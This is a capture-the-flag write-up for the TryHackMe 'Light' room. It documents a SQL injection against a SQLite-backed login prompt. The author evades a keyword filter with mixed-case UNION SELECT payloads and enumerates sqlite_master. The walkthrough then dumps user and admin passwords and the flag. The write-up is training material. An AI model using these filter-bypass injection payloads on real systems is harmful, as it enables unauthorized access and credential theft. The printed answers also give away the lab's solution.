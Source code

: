 
[[TryHackMe]] Room

**Date**: 10/02/25
**Target IP**: 10.10.172.39

I am working on a database application called Light! Would you like to try it out?  
If so, the application is running on **port 1337**. You can connect to it using `nc 10.10.172.39 1337`  
You can use the username `smokey` in order to get started.

---
## **Initial Scanning

### [[nmap]]

22/tcp open  ssh     syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

1337/tcp open  waste?  syn-ack ttl 61

---
## **Exploration**

```shell
❯ nc 10.10.172.39 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```


```
Please enter your username: SELECT version() 
Ahh there is a word in there I don't like :(
Please enter your username: SeLect version()     
Username not found.
Please enter your username: SeLect @@version
Username not found.
Please enter your username: ' UNION SELECT 1'--
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
Please enter your username: ' UNION SELECT 1'
Ahh there is a word in there I don't like :(
Please enter your username: ' UniOn SeLect 1'
Password: 1
```

We see that in the last entry we manage to obtain a UNION SELECT SQLi.  We now know SQLi is possible and the DB is an SQL-based DB.

---
## **Exploitation**

```
Please enter your username: ' UniOn SeLECT @@version'
Error: unrecognized token: "@"
Please enter your username: ' UniOn SElECT sqlite_version()'     
Password: 3.31.1
```

We see that the back-end DB is SQLite.

We can now use common SQLite SQLi payloads as follows.

```
Please enter your username: ' UniOn SElECT sql FROM sqlite_master'
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)

Please enter your username: ' UniOn SElECT group_concat(sql) FROM sqlite_master'
Password: CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER),CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
                   
Please enter your username: ' UniOn SElECT group_concat(username,password) FROM usertable'
Password: aliceyAn4fPaF2qpCKpRrobe74tqwRh2oApPo6john7DV4dwA0g5FacRemichaelvYQ5ngPpw8AdUmLsmokeyEcSuU35WlVipjXGhazelYO1U9O1m52aJImAralphWObjufHX1foR8d7steve

Please enter your username: ' UniOn SElECT group_concat(password) FROM admintable'
Password: mamZtAuMlrsEy5bp6q17,THM{SQLit3_InJ3cTion_is_SimplE_nO?}

Please enter your username: ' UniOn SElECT * FROM admintable'
Error: SELECTs to the left and right of UNION do not have the same number of result columns

Please enter your username: ' UniOn SElECT username FROM admintable'
Password: TryHackMeAdmin

Please enter your username: TryHackMeAdmin
Username not found.

Please enter your username: ' UniOn SElECT password FROM admintable'
Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}
```

---
## **Summary**

- SQLite Back-end DB
- admintable and usertable
- Admin username : TryHackMeAdmin
- Admin password : mamZtAuMlrsEy5bp6q17
- Flag : THM{SQLit3_InJ3cTion_is_SimplE_nO?}

